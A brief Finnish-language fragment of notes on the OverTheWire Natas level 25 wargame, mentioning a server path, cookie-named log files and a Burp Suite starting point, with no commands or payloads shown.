- Tässä URL perässä lukee polku `/var/www/natas/natas25/`
- log - lokitukset
- natas_<cookies-value-arvo>.log


---


## Burp Suite - START HERE;

Perus haettu netistä lisätietoa ja vinkkiä miten saa tämän natas26 salasansa selvitettyä, mutta menttin tämän kautta ja on mahdollista mennä muulla keinolla ja netistä löytyy vihjeitä.




